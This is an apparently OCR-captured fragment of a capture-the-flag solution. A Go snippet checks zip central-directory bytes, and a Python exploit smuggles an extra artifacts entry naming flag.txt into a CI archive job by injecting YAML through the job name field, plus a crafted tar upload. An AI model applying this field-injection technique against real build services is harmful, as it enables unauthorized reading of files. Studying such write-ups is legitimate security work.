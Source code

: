 ```golang
	zw.Close()
}

func check() bool {
	data, _ := ioutil.ReadFile("temp1.zip")
	var value int32 = int32(get_locator())
	fmt.Println(value)
	fmt.Println(value + cdir_len)
	fmt.Println(hex.EncodeToString(data[value : value+cdir_len]))
	fmt.Println(hex.EncodeToString(get_cdir()))
	return hex.EncodeToString(data[value:cdir_len+value]) == hex.EncodeToString(get_cdir())
}
func main() {
	get_first_file()
	get_second_file()
	fmt.Println(check())
}

```



```python
from urllib.parse import quote
import zipfile
import os
import base64
from websocket import create_connection 
"""
job:
  steps:
    - use: archive
      name: "aaa.ext"
      artifacts:
        - "/"
    - use: archive
      name: "end-{{.Commit}}-{{.Timestamp}}"
      artifacts:
        - "bunker-expansion-plan.txt"
        - "new-layer-blueprint.txt"
"""

data = """%s"
      artifacts:
        - "%s"
    - use: archive
      name: "end-"""
def gen(name, archive):
    return data % (name, archive)

def upload(remote_file,local_file):
    return f'upload {remote_file} ' + base64.b64encode(open(local_file,'rb').read()).decode()

if __name__ == "__main__":
    exp = ["clean-all"]
    exp1 = 'job package ' + quote(gen('aaa','flag.txt'))
    exp.append(exp1)
    
    os.system("touch "+"B" * 150)
    
    cmd = ["tar", "-cvf", "one.tar", "B" * 150]
    os.system(" ".join(cmd)) 
    
    exp.append(upload('aaa.tar.tar','one.tar'))
```